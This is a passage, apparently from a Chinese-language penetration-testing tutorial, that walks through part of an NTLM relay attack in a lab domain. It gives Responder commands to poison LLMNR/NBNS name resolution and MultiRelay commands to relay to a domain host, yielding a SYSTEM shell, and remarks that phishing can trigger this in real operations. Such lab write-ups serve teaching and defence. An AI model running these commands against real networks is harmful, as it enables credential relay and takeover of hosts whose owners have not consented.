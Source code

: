 Step 2：在 kali(192.168.188.129) 上使用 Responder 开启监听 (这里 responder 的作用就是当访问一个不存在的共享路径，将名称解析降到 LLMNR/NBNS 时来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应)

```plain
responder -I eth0 -w -r -f
```

[![](assets/1701222524-377e2e2761dcd7a4dfc6ce780ab83799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143717-92be465a-8db8-1.png)  
Step 3：使用 Responder 的 MultiRelay 模块，指向域内的一台普通主机

```plain
python MultiRelay.py -t 192.168.188.3 -u ALL
```

[![](assets/1701222524-5fdfac8b379523517d6366f415cb142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143742-a1a0285a-8db8-1.png)  
Step 5：在域控 server 2012 上建立文件共享请求，kali 即可接收到 192.168.188.3 的 sytem shell(实战中可以通过钓鱼发起请求)  